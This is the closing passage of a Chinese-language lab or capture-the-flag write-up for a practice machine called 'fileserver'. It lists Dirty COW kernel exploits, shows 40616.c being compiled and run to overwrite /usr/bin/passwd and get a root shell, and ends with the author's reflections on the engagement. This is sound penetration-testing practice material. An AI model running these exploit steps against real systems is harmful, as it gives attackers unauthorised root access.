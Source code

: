 ```
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/passwd Method)                                                   | linux/local/40847.cpp
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKEDATA' Race Condition (Write Access Method)                                                                      | linux/local/40838.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)                                                | linux/local/40839.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self/mem Race Condition (Write Access Method)                                                                       | linux/local/40611.c
------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
再试一下这些 **local poc**
编译执行40616这个poc的时候成功了
```
[smbuser@fileserver ~]$ gcc 40616.c -o poc -pthread
40616.c: 在函数‘procselfmemThread’中:
40616.c:99:9: 警告：传递‘lseek’的第 2 个参数时将指针赋给整数，未作类型转换 [默认启用]
         lseek(f,map,SEEK_SET);
         ^
In file included from 40616.c:28:0:
/usr/include/unistd.h:334:16: 附注：需要类型‘__off_t’，但实参的类型为‘void *’
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                ^
[smbuser@fileserver ~]$ ./poc 
DirtyCow root privilege escalation
Backing up /usr/bin/passwd.. to /tmp/bak
Size of binary: 27832
Racing, this may take a while..
thread stopped
thread stopped

/usr/bin/passwd is overwritten
Popping root shell.
Don't forget to restore /tmp/bak
[root@fileserver smbuser]# 
```

# 反思
前面扫描端口的时候会影响初期的打点，害得我一直在利用smb找信息，导致我在拿到ftp登录密码之后还是不知道使用，也对得起这个靶机名，全是文件服务。再就是最后的提权姿势，试了很多内核提权都不行，一度让我觉得不是这个利用路径，最后在网上找到确定是内核漏洞，才试出来了。还得多练寻找内核提权对应poc的能力。